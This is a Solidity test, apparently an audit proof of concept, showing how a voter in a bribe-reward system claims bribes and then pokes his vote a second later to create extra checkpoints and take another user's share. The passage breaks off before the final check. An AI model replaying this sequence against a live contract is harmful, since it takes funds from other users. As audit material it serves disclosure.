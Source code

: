 ```solidity
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;


        // Reward amount
        uint256 rewardAmount = TOKEN_100K;
        // Notify bribe for reward amount
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);

        // Alice Vote
        hevm.prank(alice);
        voter.vote(aliceTokenId, pools, weights, 0);
        // Bob Vote
        hevm.prank(bob);
        voter.vote(bobTokenId, pools, weights, 0);

        // Next epoch started
        hevm.warp(period + 2 weeks + 1 );
        voter.distribute();

        // Bob and Alice  rewarded  half of the reward each
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount/2);
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), rewardAmount/2);

        hevm.warp(period + 2 weeks + 1 days );

        // Alice referesh his vote statues
        hevm.prank(alice);
        voter.poke(aliceTokenId);


        // Bob did not like that alice sharing with him half of the full reward
        // He decided to trick the calculation of this epoch to steal Alice reward
        // First he claim his bribe, this will save a new checkpoint for his veALCX
        hevm.prank(bob);
        voter.claimBribes(bribes, tokens, bobTokenId);
        // Then. after 1 secound he poke his vote to be updated in another checkpoint
        hevm.warp(period + 2 weeks + 1 days + 1 seconds);
        hevm.prank(bob);
        voter.poke(bobTokenId);

        // Notify bribe for reward amount in this wpoch
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);


        // Next epoch started
        hevm.warp(period + 4 weeks + 1);
        voter.distribute();

        // Now Alice has the right earned amount, 2 * half of reward amount (first epoch reward + secound)
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), (rewardAmount/2) * 2);

        // Since Bob has claim the reward of the first epoch,
        // He should earn only half of the reward of the secound epoch
```